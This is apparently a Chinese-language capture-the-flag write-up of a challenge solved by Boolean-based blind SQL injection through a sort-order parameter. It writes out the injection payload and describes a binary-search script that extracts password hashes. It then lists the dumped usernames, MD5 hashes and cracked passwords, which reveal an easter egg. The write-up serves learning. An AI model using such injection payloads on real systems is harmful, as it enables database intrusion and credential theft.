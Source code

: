## 解题思路

具体思路是通过 Boolean 型盲注来把答案注出来: `by=5, if((select length(password)<=[某数字] from users where username=0x41646d696e), username, bananas)-- &dir=DESC'`(这个显示的方式不是唯一的, 但用我这种方法, 答案为 true 的话, Admin 会在第14位, 否则在第13位, 根据这个再采用二分法可以知道 password 的长度)
exploit 脚本: 主要使用二分算法, 先猜密码长度(但因为是 MD5, 肯定是 32 位), 然后就通过字符串范围来逐个猜解字符

## 彩蛋

既然把脚本写好了, 怎么可能只爆个 Admin 就算了呢? 继续爆一下 ;-)

本题使用的数据库名: GIzmorE{As2

数据库用户: GIzmorE{As2@loCAlHost

表的内容爆破:

| 用户名            | 密码                             | crack           |
| ----------------- | -------------------------------- | --------------- |
| System            | 423F111F393D2C1E98D207DD66B43FF4 | **ultrasecure** |
| Aaron A Aaronson  | 02A1590003A402202F6EE8800FCA0419 | **moonwalk**    |
| Harald            | 0571749E2AC330A7455809C6B0E7AF90 | **sunshine**    |
| Harald1...Harald5 | 02A1590003A402202F6EE8800FCA0419 | **moonwalk**    |
| Horst             | E9706129263AF652E7B9A3DD557FB3DD | **stepdance**   |
| Horst1            | 639BAE9AC6B3E1A84CEBB7B403297B79 | **you**         |
| Horst2            | 4A1A27296188C273F6733EAD4FE4EFF6 | **got**         |
| Horst3            | 6864F389D9876436BC8778FF071D1B6C | **my**          |
| Horst4            | CC989606B586F33918FE0552DEC367C8 | **crystal**     |
| Horst5            | 7A10EA1B9B2872DA9F375002C44DDFCE | **ball**        |
| Peter             | 02A1590003A402202F6EE8800FCA0419 | **moonwalk**    |
| Peter1            | CAE8D14EDD025E72C59DBAB6F378C95A | **You**         |
| Peter2            | 1439BEF7C5BFE983427BDB347001FF44 | **Discovered**  |
| Peter3            | 8466FA8E428BF83C4D2D9893B4BADA64 | **My**          |
| Peter4            | 914D0A4EBC177889B5B89A23F556FD75 | **Nice**        |
| Peter5            | D45FA76DA38D9C2942BEC2A91198E40B | **Easteregg**   |

这个 Peter 账户的密码告诉我们这是个彩蛋 ;-)

测试后, 发现这个用户下只有两个 schema, 分别是 information_schema(初始就有) 和 GIzmorE{As2 这个. 然后, 后者下只有一个表, 也就是本题的 users 表, 所以没有注入的意义了, 果然作者还是大佬, 一点也不松懈.
